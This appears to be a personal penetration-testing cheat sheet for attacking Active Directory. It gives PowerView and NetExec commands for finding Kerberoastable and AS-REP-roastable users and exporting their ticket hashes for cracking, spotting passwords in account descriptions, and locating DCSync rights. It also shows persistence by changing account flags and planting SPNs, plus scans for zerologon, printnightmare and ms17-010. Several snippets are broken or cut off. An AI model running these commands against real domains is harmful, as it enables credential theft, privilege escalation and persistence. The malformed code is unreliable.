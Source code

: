 ### Retrived Domain SID

```powershell
(Get-ADDomain
```

### Powerfull Powerview Commands

```powershell
# Recursive Group Membership to know who to target for potential elevation of privileges.
PS C:\htb>  Get-DomainGroupMember -Identity "Domain Admins" -Recurse

#ASREPRoastable users
PS C:\htb>  Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

#Kerberoastable users
PS C:\htb> Get-NetUser -SPN | select samaccountname,userprincipalname,useraccountcontrol | fl
PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Users with PASSWD_NOTREQD set in the userAccountControl means that the user is not subject to the current password policy
# Users with this flag might have empty passwords (if allowed) or shorter passwords
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

#Persistence
#Asreproast
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
Get-ADUser Jorden | Set-ADAccountControl -doesnotrequirepreauth $true
#Kerberosting
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose 
Get-ADUser -Filter 'Name -like "Jorden"' | Set-ADAccountControl -doesnotrequirepreauth $false

#Finding Passwords in the Description Field using Get-Domain User
Get-DomainUser * | Select-Object samaccountname, userprincipalname, useraccountcongtrol, description | Where-Object {$_.Description -ne $null} | fl
 
#All disabled users
Get-NetUser -UACFilter ACCOUNTDISABLE 

#Retrieve *most* users who can perform DC replication for inlanefreight.local (i.e. DCsync)
Get-ObjectAcl "dc=dc=inlanefreight,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll'
```

## Netexec

[Welcome | NetExec](https://www.netexec.wiki/)

When you start your internal pentest, these are the first modules you should try:

```bash
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M zerologon
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u 'user' -p 'pass' -M nopac
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M printnightmare
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M smbghost
Intrusionz3r0X@htb[/htb]$ nxc smb <ip> -u '' -p '' -M ms17-010
```
